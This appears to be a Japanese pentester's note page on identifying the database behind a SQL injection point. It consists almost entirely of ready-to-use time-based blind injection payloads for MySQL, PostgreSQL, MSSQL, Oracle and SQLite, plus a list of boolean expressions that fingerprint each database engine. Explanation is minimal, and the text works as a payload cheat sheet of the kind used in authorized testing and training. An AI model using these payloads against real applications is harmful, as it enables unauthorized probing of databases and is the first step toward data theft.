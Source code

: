 ## ## DBの製品の特定
- MySQL(string concat and logical ops)
```sh
1' + sleep(10)
1' and sleep(10)
1' && sleep(10)
1' | sleep(10)****
```
- PostgreSQL(only support string concat)
```sh
1' || pg_sleep(10)
```
- MSQL
```sh
1' WAITFOR DELAY '0:0:10'
```
- Oracle
```sh
1' AND [RANDNUM]=DBMS_PIPE.RECEIVE_MESSAGE('[RANDSTR]',[SLEEPTIME])
1' AND 123=DBMS_PIPE.RECEIVE_MESSAGE('ASD',10)
```
- SQLite
```
1' AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
1' AND 123=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
```

- その他の列挙方法
```
["conv('a',16,2)=conv('a',16,2)" ,"MYSQL"],
["connection_id()=connection_id()" ,"MYSQL"],
["crc32('MySQL')=crc32('MySQL')" ,"MYSQL"],
["BINARY_CHECKSUM(123)=BINARY_CHECKSUM(123)" ,"MSSQL"],
["@@CONNECTIONS>0" ,"MSSQL"],
["@@CONNECTIONS=@@CONNECTIONS" ,"MSSQL"],
["@@CPU_BUSY=@@CPU_BUSY" ,"MSSQL"],
["USER_ID(1)=USER_ID(1)" ,"MSSQL"],
["ROWNUM=ROWNUM" ,"ORACLE"],
["RAWTOHEX('AB')=RAWTOHEX('AB')" ,"ORACLE"],
["LNNVL(0=123)" ,"ORACLE"],
["5::int=5" ,"POSTGRESQL"],
["5::integer=5" ,"POSTGRESQL"],
["pg_client_encoding()=pg_client_encoding()" ,"POSTGRESQL"],
["get_current_ts_config()=get_current_ts_config()" ,"POSTGRESQL"],
["quote_literal(42.5)=quote_literal(42.5)" ,"POSTGRESQL"],
["current_database()=current_database()" ,"POSTGRESQL"],
["sqlite_version()=sqlite_version()" ,"SQLITE"],
["last_insert_rowid()>1" ,"SQLITE"],
["last_insert_rowid()=last_insert_rowid()" ,"SQLITE"],
["val(cvar(1))=1" ,"MSACCESS"],
["IIF(ATN(2)>0,1,0) BETWEEN 2 AND 0" ,"MSACCESS"],
["cdbl(1)=cdbl(1)" ,"MSACCESS"],
["1337=1337", "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
["'i'='i'", "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
```
![[Pasted image 20250524105650.png]]
